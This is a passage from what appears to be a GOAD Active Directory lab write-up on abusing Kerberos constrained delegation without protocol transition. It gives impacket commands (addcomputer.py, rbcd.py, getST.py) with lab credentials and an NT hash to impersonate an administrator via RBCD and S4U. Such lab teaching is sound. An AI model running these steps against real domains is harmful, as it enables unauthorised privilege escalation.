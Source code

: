```bash
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml -l dc02 --tags "data,constrained_delegation_kerb"
```

- Or you could add it by hand with the powershell commands :

```powershell
Set-ADComputer -Identity "castelblack$" -ServicePrincipalNames @{Add='HTTP/winterfell.north.sevenkingdoms.local'}
Set-ADComputer -Identity "castelblack$" -Add @{'msDS-AllowedToDelegateTo'=@('HTTP/winterfell.north.sevenkingdoms.local','HTTP/winterfell')}
```

- This result to this in the windows GUI :

![deleg_find_delegationconstrained_gui.png](/assets/blog/GOAD/deleg_find_delegationconstrained_gui.png)

- A good example of exploitation can be found here: [https://snovvcrash.rocks/2022/03/06/abusing-kcd-without-protocol-transition.html](https://snovvcrash.rocks/2022/03/06/abusing-kcd-without-protocol-transition.html)

> The self-RBCD trick doesn't work anymore. When i was writing this article i tried the self-rbcd without success many times. After multiple tries and fail i ask to charlie (@_nwodtuhs) what i am doing wrong, because i can't find out why this don't work as expected. He explained to me that the self rbcd trick didn't work anymore and have been silent patch by Microsoft :'(
{: .prompt-warning }

- To exploit the constrained delegation here we only need a forwardable TGS as administrator to any service on castelblack
- But if we do a s4u (s4u2self + s4u2proxy) like we did with protocol transition, the s4uself will send us a not forwardable TGS and the attack will fail.

- So to exploit and get the forwardable TGS we need, we first need to add a computer and use RBCD between the created computer (rbcd_const$) and the computer who have delegation set (here castelblack$).

- By doing that, you can do a s4u2self followed by a s4u2proxy on the added computer and the result is a forwardable tgs on hots/castelblack$ as administrator.

- Once that done, you have the forwardable ticket to pass to s4u2proxy, and we even can change the request service with -altservice


```bash
# add computer X (rbcd_const)
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/arya.stark:Needle'

# add rbcd from X (rbcd_const) to constrained (castelblack)
rbcd.py -delegate-from 'rbcd_const$' -delegate-to 'castelblack$' -dc-ip 192.168.56.11 -action 'write' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
```

- Do the s4u2self followed by the s4u2proxy on castelblack (this is the classic RBCD attack)

```bash
# s4u2self on X (rbcd_const)
getST.py -self -impersonate "administrator" -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'

# s4u2proxy from X (rbcd_const) to constrained (castelblack)
getST.py -impersonate "administrator" -spn "host/castelblack" -additional-ticket 'administrator@rbcd_const$@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

